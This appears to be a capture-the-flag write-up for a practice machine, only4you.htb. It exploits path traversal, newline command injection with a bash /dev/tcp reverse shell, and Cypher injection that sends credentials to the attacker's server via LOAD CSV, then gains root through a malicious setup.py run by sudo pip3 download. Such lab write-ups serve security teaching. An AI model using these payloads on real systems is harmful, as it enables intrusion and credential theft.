Exploitation Summary
Exploitation process: The target machine hosted multiple web applications on different virtual hosts and internal ports. Initial reconnaissance revealed a beta subdomain at beta.only4you.htb that exposed its source code, which contained a path traversal vulnerability in the file download endpoint.
Through local file inclusion, I discovered the main application at only4you.htb had a command injection vulnerability in its email validation form, which executed the dig command insecurely. Exploiting this allowed me to gain a reverse shell as www-data.
After establishing initial access, port forwarding revealed an internal web application on port 8001 running Neo4j as its database backend. Using default credentials admin:admin, I accessed the internal application which had a Cypher injection vulnerability in its employee search functionality. By crafting custom Cypher queries, I exfiltrated credentials for the user john from the Neo4j database.
Privilege escalation was achieved by exploiting a sudo permission that allowed John to run pip3 download from a local Gogs repository. I created a malicious Python package with a crafted setup.py that executed arbitrary commands during installation, uploaded it to Gogs, and used the sudo permission to trigger the payload, which set the SUID bit on /bin/bash and granted root access.
Technologies/Exploits: Path traversal and LFI, command injection via subprocess, Cypher injection in Neo4j, pip download arbitrary code execution through malicious setup.py.
Initial Reconnaissance
Beginning with an nmap scan to identify open ports and services on the target machine:

The scan reveals SSH running on port 22 and HTTP on port 80. I add only4you.htb to my /etc/hosts file to properly resolve the domain.
Web Enumeration - Main Application
The main website at only4you.htb is a simple static page with no additional routes discovered through directory enumeration. However, scanning for virtual hosts yields more interesting results - I discover a beta subdomain:
beta.only4you.htb Status: 200 [Size: 2191]
After adding beta.only4you.htb to my hosts file, I access the beta application which offers an interesting feature: the ability to download its own source code. This is the first thing I investigate.
Source Code Analysis - Path Traversal Vulnerability
Examining the downloaded source code, the most interesting finding is the POST /download endpoint:

The code performs a manual check for .. in the filename, which is a strong indicator of a directory traversal vulnerability. The key section of code is:
if not os.path.isabs(filename):
filename = os.path.join(app.config['LIST_FOLDER'], filename)This logic only applies the LIST_FOLDER prefix if the filename is not an absolute path. This means I can potentially specify absolute paths to read arbitrary files from the system. I test this hypothesis by attempting to read /etc/passwd:
curl -X POST http://beta.only4you.htb/download -F 'image=/etc/passwd' | grep bashThe response confirms the vulnerability works:
root:x:0:0:root:/root:/bin/bash
john:x:1000:1000:john:/home/john:/bin/bash
neo4j:x:997:997::/var/lib/neo4j:/bin/bash
dev:x:1001:1001::/home/dev:/bin/bashI identify four potential user accounts: root, john, neo4j, and dev. I attempt to access SSH private keys at /home/john/.ssh/id_rsa and similar paths for other users, but these files either don't exist or aren't readable.
Locating the Application Files
To find more useful files, I need to determine where the application is installed on the filesystem. Knowing that Flask applications are typically served from /var/www, I try various path combinations with keywords like beta, only4you, and html.
After several attempts, I successfully locate the application at:
image=/var/www/beta.only4you.htb/app.pyUnfortunately, examining this file doesn't reveal any credentials or additional vulnerabilities beyond what I already found in the downloaded source code.
Command Injection in Main Application
Shifting focus back to the main application at only4you.htb, I use the LFI to read its source code. Testing index.html doesn't work, but trying app.py successfully retrieves the Flask application code.
The application imports a function from a form module:
from form import sendmessage
I use the LFI to read form.py and discover a critical vulnerability - the application executes subprocess.run in an unsafe manner to perform DNS lookups with the dig command:

The code doesn't properly sanitize user input before passing it to the shell. This allows command injection by inserting newline characters (%0a) to execute additional commands.
Testing Remote Code Execution
I test the vulnerability with a simple payload that attempts to connect back to my HTTP server:
email=asd%40asd.com%0awget+10.10.16.6:8000My Python HTTP server confirms the exploit works:
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.210 - - "GET / HTTP/1.1" 200 -Initial Access - Reverse Shell
Now that I've confirmed code execution, I craft a payload to deliver a reverse shell:
email=asd%40asd.com%0abash+-c+"bash+-i+>%26+/dev/tcp/10.10.16.6/443+0>%261"After setting up a netcat listener with nc -lvnp 443 and sending the payload, I successfully receive a reverse shell connection as the www-data user.
Post-Exploitation Enumeration
After gaining initial access, I examine the /tmp and /opt directories:

Using ss -tuln to examine listening ports, I discover several internal services:
- Port 3000: Gogs service (visible in
/opt) - Port 8001: Internal application with a login interface
- Port 7474: Neo4j database (related to files in
/tmp) - Port 3306: MySQL database (no credentials available yet)
Neo4j Service Discovery
I investigate the Neo4j service running on port 7474:
curl localhost:7474{
"bolt_routing" : "neo4j://localhost:7687",
"transaction" : "http://localhost:7474/db/{databaseName}/tx",
"bolt_direct" : "bolt://localhost:7687",
"neo4j_version" : "5.6.0",
"neo4j_edition" : "community"
}This confirms Neo4j version 5.6.0 is running. I research known vulnerabilities for this version but don't find any immediately exploitable issues.
Port Forwarding with Chisel
To access these internal services from my attacking machine, I use Chisel for port forwarding. On my machine:
./chisel server -p 1234 --reverseOn the target machine:
./chisel client 10.10.16.6:1234 R:8001:127.0.0.1:8001With the tunnel established, I can now access the internal services through my localhost.
Internal Application Discovery
The service on port 8001 presents a login page for an application called "only4you". Running gobuster against it reveals several interesting endpoints:

Without credentials, I can't proceed further with this application yet.
Gogs Investigation
Port 3000 hosts Gogs, an open-source Git service: https://github.com/gogs/gogs. While I search for known vulnerabilities, I can't determine the exact version, so I defer deeper investigation until I have credentials.
Neo4j Browser Interface
Port 7474 serves the Neo4j browser interface. Gobuster reveals several endpoints:

Attempting to access /db presents a login form:

The default credentials neo4j:neo4j don't work, indicating the password has been changed.
Gaining Access to Internal Application
Returning to the internal application on port 8001, I try common default credentials. The combination admin:admin successfully grants me access:

Cypher Injection in Neo4j
The internal application has an "employees" section with a search functionality. When I input a single quote (') into the search field, the application returns a 500 error, indicating a potential injection vulnerability.
I initially test with sqlmap, which detects an injection but can't exploit it further. After research, I realize this application uses Neo4j as its database backend, which doesn't use traditional SQL - it uses a query language called Cypher.
Confirming Cypher Injection
I test a basic Cypher injection payload to confirm the vulnerability:

The payload successfully executes, confirming Cypher injection is possible.
Data Exfiltration Technique
I find an excellent resource explaining Neo4j injection techniques: https://www.varonis.com/blog/neo4jection-secrets-data-and-cloud-exploits
The most effective exfiltration method is using the LOAD CSV function to send data to my own HTTP server. I start by enumerating database labels (similar to tables in SQL):
' RETURN 1 as _l00 UNION CALL db.labels() yield label LOAD CSV FROM 'http://10.10.16.6/?=' + label as _l00 RETURN 1 as _l00//My HTTP server receives:
10.10.11.210 - - "GET /?=user HTTP/1.1" 200 -
10.10.11.210 - - "GET /?=employee HTTP/1.1" 200 -This reveals two labels: user and employee. The user label is most interesting for credential hunting.
Extracting Column Names
I enumerate the property keys (columns) of the user label:
' match (u:user) with distinct keys(u) as k LOAD CSV FROM 'http://10.10.16.6/?=' + k[0] as _l00 RETURN 1 as _l00//10.10.11.210 - - "GET /?=password HTTP/1.1" 200 -' match (u:user) with distinct keys(u) as k LOAD CSV FROM 'http://10.10.16.6/?=' + k[1] as _l00 RETURN 1 as _l00//10.10.11.210 - - "GET /?=username HTTP/1.1" 200 -The user label has two properties: username and password.
Extracting Credentials
Finally, I extract the actual credential data by concatenating username and password:
' match (u:user) with distinct u.username + ":" + u.password as d LOAD CSV FROM 'http://10.10.16.6/?=' + d as _l00 RETURN 1 as _l00//My server receives the credentials:
10.10.11.210 - - "GET /?=admin:8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918 HTTP/1.1" 200 -
10.10.11.210 - - "GET /?=john:a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6 HTTP/1.1" 200 -The passwords are hashed, but I recognize these as SHA-256 hashes. Using CrackStation to crack them reveals:
admin:admin(already known)john:ThisIs4You
SSH Access as John
Using the recovered credentials, I SSH into the machine as john and retrieve the user flag.
Privilege Escalation - Sudo Pip Download
Checking John's sudo permissions reveals an interesting configuration:
sudo -lMatching Defaults entries for john on only4you:
env_reset, mail_badpass, secure_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
User john may run the following commands on only4you:
(root) NOPASSWD: /usr/bin/pip3 download http\://127.0.0.1\:3000/*.tar.gzJohn can run pip3 download as root, but only for packages from the local Gogs service on port 3000. This is designed as a security measure, but I can exploit it by hosting a malicious Python package in a Gogs repository.
Accessing Gogs
I set up SSH local port forwarding to access Gogs from my machine:
ssh -L 3000:127.0.0.1:3000 john@10.10.11.210Accessing localhost:3000 in my browser, I log in to Gogs using John's credentials (john:ThisIs4You). I notice there's already a test repository that I can use to host my malicious package.
Understanding the Exploit
I discover this blog post explaining the vulnerability: Python Package Manager Install and Download Vulnerability
The key insight is that when pip download processes a package, it reads and executes code in setup.py during the metadata extraction phase - even before installing the package. This happens with root privileges when using sudo.
I find a proof-of-concept repository demonstrating this: https://github.com/wunderwuzzi23/this_is_fine_wuzzi
Crafting the Malicious Package
I clone the proof-of-concept repository and modify the setup.py to execute my payload instead of just printing text. My goal is to set the SUID bit on /bin/bash:

The key modification is replacing the harmless print statement with:
os.system("chmod u+s /bin/bash")I build the package using Python's build module:
python -m buildThis creates a .tar.gz file in the dist/ directory containing my malicious package.
Uploading to Gogs
I upload the malicious this_is_fine_wuzzi-0.0.1.tar.gz file to the test repository in Gogs. Crucially, I configure the repository to be public so the package can be downloaded without authentication.
Triggering the Exploit
Now I execute the sudo command to download the malicious package:
sudo pip3 download http://127.0.0.1:3000/john/Test/raw/master/this_is_fine_wuzzi-0.0.1.tar.gzCollecting http://127.0.0.1:3000/john/Test/raw/master/this_is_fine_wuzzi-0.0.1.tar.gz
Downloading http://127.0.0.1:3000/john/Test/raw/master/this_is_fine_wuzzi-0.0.1.tar.gz
Saved ./this_is_fine_wuzzi-0.0.1.tar.gz
Successfully downloaded this-is-fine-wuzziDuring the download process, pip extracts the package metadata, which triggers the execution of my malicious setup.py as root. I verify the SUID bit was set:
ls -la /bin/bash-rwsr-xr-x 1 root root 1183448 Apr 18 2022 /bin/bashThe s in the permissions confirms the SUID bit is set.
Root Access
With the SUID bit set on bash, I can now spawn a root shell:
bash -pThe -p flag preserves the effective user ID, ensuring the SUID bit is honored. This grants me a root shell:
whoamirootI can now retrieve the root flag and complete the machine.